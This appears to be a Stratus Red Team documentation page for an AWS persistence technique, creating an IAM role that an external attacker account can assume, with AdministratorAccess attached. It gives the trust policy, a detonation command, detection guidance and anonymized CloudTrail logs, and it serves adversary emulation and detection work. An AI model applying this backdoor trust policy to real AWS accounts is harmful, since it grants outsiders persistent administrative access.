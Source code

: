 ```yaml
---
title: Create a backdoored IAM Role
---
```


# Create a backdoored IAM Role




Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by creating a new backdoor role with a trust policy allowing it to be assumed from 
an external, fictitious attack AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: None.

<span style="font-variant: small-caps;">Detonation</span>: 

- Create a new IAM role with the following trust policy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

- Attach the 'AdministratorAccess' managed IAM policy to it. 

*Note: For safety reasons, the detonation code makes sure that this role has no real effective permissions, by attaching a permissions boundary denying all actions. This could also be achieved with an inline role policy, but using a permissions boundary allows us to use a single API call (CreateRole).*

References:

- https://www.invictus-ir.com/news/the-curious-case-of-dangerdev-protonmail-me


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.iam-create-backdoor-role
```
## Detection


- Through [IAM Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-iam-role), 
which generates a finding when a role can be assumed from a new AWS account or publicly.

- Identify a call to <code>CreateRole</code> closely followed by <code>AttachRolePolicy</code> with an administrator policy.

- Identify a call to <code>CreateRole</code> that contains an assumeRolePolicyDocument in the requestParameters that allows access from an external AWS account. Sample event:

```
{
  "eventSource": "iam.amazonaws.com",
  "eventName": "CreateRole",
  "requestParameters": {
	"roleName": "malicious-iam-role",
	"assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"Service\": \"ec2.amazonaws.com\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    },\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}"
   }
}
```



## Detonation logs <span class="smallcaps w3-badge w3-light-green w3-round w3-text-sand">new!</span>

The following CloudTrail events are generated when this technique is detonated[^1]:


- `iam:AttachRolePolicy`

- `iam:CreateRole`


??? "View raw detonation logs"

    ```json hl_lines="6 40"

    [
	   {
	      "awsRegion": "sagov-west-2r",
	      "eventCategory": "Management",
	      "eventID": "39480357-0a1d-4531-a3f2-71be4c041c25",
	      "eventName": "AttachRolePolicy",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:37:41Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "609418236337",
	      "requestID": "09b3fc1c-c0c0-4e86-9bad-e0928a089e0d",
	      "requestParameters": {
	         "policyArn": "arn:aws:iam::aws:policy/AdministratorAccess",
	         "roleName": "stratus-red-team-malicious-iam-role"
	      },
	      "responseElements": null,
	      "sourceIPAddress": "209.209.254.254",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_e2808a95-acc5-4508-b083-d31d6f4315d9",
	      "userIdentity": {
	         "accessKeyId": "AKIA0W5KI69TY8X86BGT",
	         "accountId": "609418236337",
	         "arn": "arn:aws:iam::609418236337:user/christophe",
	         "principalId": "AIDAK4TRC24VBN0JX8JX",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   },
	   {
	      "awsRegion": "sagov-west-2r",
	      "eventCategory": "Management",
	      "eventID": "d2905ac3-9898-433f-b10d-9302abe4e208",
	      "eventName": "CreateRole",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:37:41Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "609418236337",
	      "requestID": "105d4d57-6f6d-43ce-b6a4-5b67c68b4ab5",
	      "requestParameters": {
	         "assumeRolePolicyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}",
	         "permissionsBoundary": "arn:aws:iam::aws:policy/AWSDenyAll",
	         "roleName": "stratus-red-team-malicious-iam-role"
	      },
	      "responseElements": {
	         "role": {
	            "arn": "arn:aws:iam::609418236337:role/stratus-red-team-malicious-iam-role",
	            "assumeRolePolicyDocument": "%7B%0A%20%20%22Version%22%3A%20%222012-10-17%22%2C%0A%20%20%22Statement%22%3A%20%5B%0A%20%20%20%20%7B%0A%20%20%20%20%20%20%22Effect%22%3A%20%22Allow%22%2C%0A%20%20%20%20%20%20%22Principal%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22AWS%22%3A%20%22arn%3Aaws%3Aiam%3A%3A193672423079%3Aroot%22%0A%20%20%20%20%20%20%7D%2C%0A%20%20%20%20%20%20%22Action%22%3A%20%22sts%3AAssumeRole%22%0A%20%20%20%20%7D%0A%20%20%5D%0A%7D",
	            "createDate": "Aug 1, 2024 1:37:41 PM",
	            "path": "/",
	            "permissionsBoundary": {
	               "permissionsBoundaryArn": "arn:aws:iam::aws:policy/AWSDenyAll",
	               "permissionsBoundaryType": "Policy"
	            },
	            "roleId": "AROA53G8Z8NGXMJ597G3E",
	            "roleName": "stratus-red-team-malicious-iam-role"
	         }
	      },
	      "sourceIPAddress": "209.209.254.254",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_e2808a95-acc5-4508-b083-d31d6f4315d9",
	      "userIdentity": {
	         "accessKeyId": "AKIA0W5KI69TY8X86BGT",
	         "accountId": "609418236337",
	         "arn": "arn:aws:iam::609418236337:user/christophe",
	         "principalId": "AIDAK4TRC24VBN0JX8JX",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   }
	]
    ```

[^1]: These logs have been gathered from a real detonation of this technique in a test environment using [Grimoire](https://github.com/DataDog/grimoire), and anonymized using [LogLicker](https://github.com/Permiso-io-tools/LogLicker).
